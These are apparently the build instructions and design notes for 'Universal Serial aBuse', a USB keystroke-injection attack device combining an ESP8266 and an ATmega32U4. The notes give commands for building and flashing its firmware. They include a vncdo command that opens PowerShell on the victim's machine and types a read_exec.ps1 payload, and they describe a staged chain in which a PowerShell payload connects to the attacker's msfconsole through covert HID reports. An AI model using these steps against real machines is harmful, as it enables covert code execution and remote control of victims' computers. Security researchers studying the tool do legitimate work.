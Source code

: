 Instructions for building the Universal Serial aBuse firmwares and host software

First steps are to install the various compilers for the microprocessors.

OS X and Linux can install the ESP tools by following the instruction in the ESP Open SDK repo:

https://github.com/pfalcon/esp-open-sdk

NB: Make sure to compile the non-standalone version of the esp-open-sdk, otherwise there will
be problems with C types such as uint32_t:

$ make STANDALONE=n

Once the esp-open-sdk has compiled, in the top-level directory, do:

$ wget --content-disposition "http://bbs.espressif.com/download/file.php?id=1046
$ unzip ESP8266_NONOS_SDK_V1.5.1_16_01_08.zip

At this stage, you should be able to change to the esp-vnc directory, and run make.

OS X can also get the AVR compiler by installing the Arduino app, e.g. Caskroom/cask/arduino

Linux can install using apt-get: apt-get install gcc-avr avrdude

Once the avr tools are installed, and avr-gcc is in your PATH, compile the avr firmwares:

cd avr
make

This should build two firmwares, Program_ESP and KeyboardMouseGeneric. i.e you should have .hex files in each directory.

If the ESP sdk was successfully installed, you should also be able to compile the ESP firmware.

cd esp-vnc
make

This should result in a user1.bin file in the firmware directory.

I found the following invocation to be useful in programming both firmwares:

avr/flash_avr avr/Program_ESP/Program_ESP.hex && sleep 2 && \
esp-vnc/flash_esp esp-vnc/firmware/user1.bin && \
avr/flash_avr avr/KeyboardMousegeneric/KeyboardMouseGeneric.hex

Alternatively, with a suitably updated flash_esp, you can do:

esp-vnc/flash_esp esp-vnc/firmware/user1.bin avr/KeyboardMousegeneric/KeyboardMouseGeneric.hex

which does the above for you.

To send vnc commands to it, use vncdotool, available in pip. Note, vncdotool is only compatible with Python2.7, not python 3+

$ vncdo -s esp-link.lan -p password type "echo hello" key enter

A more comprehensive example might be:

$ vncdo -s esp-link.lan -p password key alt-r pause 1 type powershell key enter pause 1 typefile win/USaBuse_PS/USaBuse_PS/read_exec.ps1

An updated vncdo is available at https://github.com/RoganDawes/vncdotool that includes the ability to type out a file.

The hard coded password for the VNC server is "password". Ideally, I should include DES routines in the ESP firmware, so that the password can be changed dynamically.

If esp-link.lan does not resolve, look for port 23 and 5900 on the local network, or check your DHCP server.


The various TLV packets are described here.
TLV_CONTROL packets are packets that contain no attack data per se, but rather
allow for control messages to be passed between various parts of the attack
chain. For instance, TLV_CONTROL_FLOW packets control the flow of data between
the 32U4 and the ESP8266. They have a single data byte, where 1 indicates that
the ESP8266 should suspend sending data until the 32U4 has caught up, and 0
indicates that the ESP8266 may resume sending data.

TLV_CONTROL_CONNECT packets are generated by the 32U4 when the victim indicates
it wants to connect to a certain channel. This is typically in response to the
stage0 loader wanting its next stage, or the final powershell payload wanting
a TCP socket connected to the attacker's controller. CONNECT packets simply
contain the number of the channel that is being requested, where 0 indicates
"no connection", 1 indicates "1st stage loader", and 2 indicates "msfconsole".

The powershell payload indicates which connection it wants by sending a
"zero-length HID report" (i.e. the 1st byte of the report data is 0), with
the following byte indicating the desired channel.

The basic idea is as follows:
Device is connected via USB, current channel = 0
Initially, the Generic HID reports will reflect a length of 0, and channel 0
This is essentially what they are doing by default, returning a payload of 64 zeroes.

Yet to be implemented, the Keyboard could periodically send a toggle key event,
such as a numlock or scroll lock event, until it receives a corresponding report
from the host. At this point, the device can assume that it has been successfully
enumerated. It would be reasonable for the device to then request the VNC keystrokes
that would run the powershell stage 0 script. In order to support on-demand triggered
VNC scripts, one could potentially run the VNC client in "connect-back" mode.
This may require additional code in vncdo to support this, but could otherwise
be implemented using a double "LISTEN" tunnel, where the device hits the first
listener, and waits until the vncdo instance connects to the second. This should
probably be connection 1.

Subsequently, if the typed stage 0 script requires it, it may request another
connection. This can be done by sending a "zero-length" HID report, where byte[0]
of the report == 0, byte[1] indicates the connection number, and subsequent bytes
could even contain the IP Address and port to connect to. If the IP address is
all zeroes, the ESP could open a listening socket instead. This could help to
reduce the amount of configuration required in the device itself.
